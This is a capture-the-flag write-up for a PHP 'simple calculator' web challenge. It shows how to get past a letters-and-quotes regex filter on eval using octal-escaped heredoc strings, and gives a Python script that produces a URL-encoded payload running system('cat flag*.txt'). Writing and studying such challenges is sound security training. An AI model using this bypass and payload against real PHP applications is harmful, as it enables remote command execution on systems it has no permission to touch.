 ```yaml
---
title: simple calculator
date: 2024-05-27T14:51:02+03:00
description: Writeup for simple calculator [L3akCTF]
type: writeup
author: Hust
tags:
- web
- command injection
draft: false
---
```


## Challenge Description

Unveil PHP Secrets.

## Intuition

The challenge involves a PHP script that evaluates mathematical expressions from a URL parameter. The script has input validation using a regex to prevent the use of alphabetic characters and quotes. By leveraging PHP's handling of heredoc syntax and octal encoding, we can craft an input that bypasses these restrictions and executes the desired command to retrieve the flag.

## Solution

1. **Octal characters**

    If a string is enclosed in double quotes (or heredocs), PHP will interpret octal characters as regular characters.

    e.g. `"\101" === "A"`

2. **Heredocs**

    Since we cannot have quotes, a way to delimit strings is the heredoc syntax: `<<<`. After this operator, an identifier is provided, then a newline. The string itself follows, and then the same identifier again to close the quotation.

    By reading the documentation for PHP Heredoc:

    [PHP Heredoc Documentation](https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.heredoc)

    "Also, the closing identifier must follow the same naming rules as any other label in PHP: it must contain only alphanumeric characters and underscores, and must start with a non-digit character or underscore."

    We learn that the identifier must start with a letter or underscore, and since we cannot have letters due to the regex validation, the only option is the underscore. So in this stage the payload will look like this:

    ```php
    <<<_
    payload_in_octal
    _
    ```

3. **Executing functions**

    Since our input must be inside quotes (or heredocs) to be converted from octals, we cannot execute functions in the regular way `func(args)`. Another way to execute functions in PHP is `("func")("args")` so we just need to wrap our payload in parentheses like this:

    ```php
    (<<<_ func-name-in-octal _)(<<<_ args-in-octal _)
    ```

    So we can do something like:

    ```php
    (<<<_ system_in_octal _)(<<<_ ls_in_octal _)
    ```

    Also, we can encode the payload to send it directly.

    Here is a Python script to automate all these steps:

    ```python
    import urllib.parse

    p1 = "system"
    p2 = 'cat flag*.txt'

    final_array = []

    final_array.append("(<<<_\n")

    for letter in p1:
        final_array.append(f"\\{oct(ord(letter))[2:]}")

    final_array.append("\n_)")

    final_array.append("(<<<_\n")

    for letter in p2:
        final_array.append(f"\\{oct(ord(letter))[2:]}")

    final_array.append("\n_)")

    cmd = "".join(final_array)

    # URL encoding the command
    encoded_cmd = urllib.parse.quote(cmd)

    print(encoded_cmd)
    ```

### Flag

`L3AK{PhP_Web_Ch@ll3ng3}`

## References

[PHP Heredoc Documentation](https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.heredoc)
